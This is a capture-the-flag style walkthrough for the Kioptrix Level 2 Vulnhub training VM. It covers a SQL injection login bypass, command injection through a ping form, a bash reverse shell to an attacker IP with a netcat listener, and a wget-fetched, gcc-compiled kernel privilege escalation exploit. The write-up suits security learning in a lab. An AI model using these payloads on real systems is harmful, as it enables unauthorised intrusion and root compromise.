 
---
# Kioptrix Level 2 - Vulnhub VM Challenge

## Description
This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.
<br>


## Finding the IP of the Target Machine

The IP of the target machine is found by using [Netdiscover tool](https://github.com/alexxy/netdiscover).

Here I got the IP of the vulnerable machine as **192.168.0.170**
## Initial Scan 

First, [Nmap scanner](https://github.com/nmap/nmap) is used to find all the open ports and services running. 
After the scan we can see that there is MySQL running on port 3306. From that we can
assume that this site is connected to a database.

## SQL and Command Injection

When we navigate to the site hosted by the VM, we get a login page which consists of user and
password input fields. Here we can try to login using SQL Injection.
When we enter 1' or '1'='1 on both username and password it will alter the SQL query in a way
that it returns true for both the input fields. Then we can move on to a console which pings the
input entered. Here we can try using command injection and it works i.e we can terminate the
ping command using ‘ ; ‘ and continue to enter commands and execute. By taking advantage of
this command injection vulnerability we can invoke a reverse shell. <br> To create it, first we start a
netcat listener on attackers machine. 
```bash
nc -nlvp 555
```
Enter the payload below in the input field to create a reverse shell
```bash
bash -i >& /dev/tcp/192.168.1.120/555 0>&1 
```

After connecting to the victims machine, we check the Linux version that the machine is running
on using the command below. 
```bash
cat /proc/version
```
Version:
```bash
Linux version 2.6.9-55.EL (mockbuild@builder6.centos.org) (gcc version 3.4.6 20060404 (Red Hat 3.4.6-8))
```
## Exploit

Next we search about the linux version and we can find that there is a **Privilege
Escalation** [Exploit](https://www.exploit-db.com/exploits/9542).<br>
After downloading this exploit we can find that it is a c file and from the reverse shell we can find
out there is a gcc compiler present. So what we have to do is we have to move that exploit file to
the victims machine. Then we have to move the exploit file to the web root directory
```bash 
var/www/html 
``` 
Then start an apache server
```bash
service apache2 start 
```
Then we have to move to **/tmp** directory in the
reverse shell and get the contents by connecting to the attackers machine using **wget**
command to get the exploit file. Then we have to compile the exploit file 
```bash
gcc exploit.c -o exploit
```
Then finally we get root access by running the executable file <3